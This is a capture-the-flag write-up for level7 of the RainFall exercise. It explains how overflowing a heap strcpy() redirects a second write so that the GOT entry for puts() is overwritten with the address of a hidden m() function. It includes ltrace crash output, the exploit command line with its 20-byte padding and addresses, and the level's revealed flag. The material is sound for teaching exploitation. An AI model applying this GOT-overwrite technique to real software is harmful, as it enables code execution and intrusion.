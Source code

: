 The decompiled program contains a main() function and an m() function that is never called. The main() function expects two parameters and segfault if they are missing. Those parameters are recorded on the heap in two different instances of a structure (see [source.c file](source.c) for more details), using malloc() and strcpy(). After that, the /home/user/level8/.pass file is opened and its content is stored in a global variable c. Finally, there is a useless printf(), which has been replaced by puts() by the compiler for optimization purposes.

What we can do here is to overflow the buffer of the first strcpy() call, so that the destination of the second strcpy() is changed. What we want to pass here is the address of the puts() function in the [global offset table (GOT)](https://en.wikipedia.org/wiki/Global_Offset_Table#:~:text=The%20Global%20Offset%20Table%2C%20or,data%20is%20loaded%20at%20runtime.), and what we want to put there is the address of the m() function.

This is made possible because the address space layout randomization ([ASLR](https://www.networkworld.com/article/3331199/what-does-aslr-do-for-linux.html)) is off.

So let's find out how many bytes are needed to reach b->s from a->s. Let's use ltrace for this:
```
level7@RainFall:~$ ltrace ./level7 AAAAAAAAAAAAAAAAAAAAAAAAA BBBB
__libc_start_main(0x8048521, 3, 0xbffff7b4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                             = 0x0804a008
malloc(8)                                                             = 0x0804a018
malloc(8)                                                             = 0x0804a028
malloc(8)                                                             = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAAAAAAA")                       = 0x0804a018
strcpy(0x41414141, "BBBB" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
Here we see that the first argument of the second strcpy() is filled with 'A' (0x41414141) so we are overwriting it right now. After some adjustments, we find that the offset is 20 bytes.

Let's now craft our parameters. The first argument needs 20 bytes of padding, followed by the puts() address on the GOT, in the little endian convention (in gdb, use the `disas puts` command). The second argument simply needs the m() function address, also in the little endian convention (in gdb, use the `info functions` command).
```
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1657334108
```
We can now reach to the next level with the command `su level8` and fill in the flag found as a password.